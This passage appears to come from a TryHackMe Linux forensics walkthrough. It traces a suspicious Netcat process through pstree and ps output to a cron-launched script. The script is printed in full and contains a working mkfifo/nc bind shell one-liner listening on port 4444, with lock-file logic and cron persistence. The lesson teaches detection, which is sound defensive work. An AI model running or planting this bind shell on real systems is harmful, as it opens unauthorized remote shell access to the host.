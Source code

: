 **Note:** Replace **775** with the PID of the parent process you identified earlier.

In the above output, we can see a hierarchical view of the process tree, where each process is listed along with its parent process and PID. From this tree, we can see that the Netcat (nc) process was spawned by intermediary processes (**abzkd83o4jakxld** and **sh**), which are executing scripts spawned by a cronjob (cron).

Now that we have a better idea of how the Netcat process was spawned, we can focus on the parent shell and cron processes to see the commands that were run. To do this, we can return to the `ps` command in full-format listing (`-f`) and filter by those specific PIDs we found in the `pstree` output:

Listing Processes with ps

```shell-session
investigator@tryhackme:~$ ps -f 769 773 775 783
UID          PID    PPID  C STIME TTY      STAT   TIME CMD
root         769     706  0 22:08 ?        S      0:00 /usr/sbin/CRON -f
janice       773     769  0 22:08 ?        Ss     0:00 /bin/sh -c /home/janice/abzkd83o4jakxld.sh
janice       775     773  0 22:08 ?        S      0:00 /bin/bash /home/janice/abzkd83o4jakxld.sh
janice       783     775  0 22:08 ?        S      0:00 nc -l 0.0.0.0 4444
```

**Note:** Replace **769**, **773**, **775**, and **783** with the PIDs you identified with `pstree`.

This output concludes that a suspicious shell script (`abzkd83o4jakxld.sh`) has been executed from the `/home/janice` directory. If we view the contents of this file, we can confirm that it matches the indicators of a common bind shell one-liner, as discussed earlier:

Viewing the Contents of the Suspicious .sh Script

```shell-session
investigator@tryhackme:~$ cat /home/janice/abzkd83o4jakxld.sh 
#!/bin/bash

# Set the path to the lock file
LOCKFILE="/tmp/abzkd83o4jakxld.lock"

# Check if lock file exists
if [ -e "$LOCKFILE" ]; then
    echo "Script is already running. Exiting."
    exit 1
fi

# Create lock file
touch "$LOCKFILE"

# Main command
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 4444 > /tmp/f

# Remove lock file
rm -f "$LOCKFILE"
```

In summary, this main command sequence (under # Main command) creates a named pipe, reads from it, and passes the data to a shell (`/bin/sh`) in interactive mode (`-i`). The remaining bits of the file seem complicated, but establishing a **lock file** is just one way to ensure that only one instance of the bind shell runs at a time. The attacker of this scenario likely set up this command sequence to establish persistence and enable future remote connections for malicious activities.
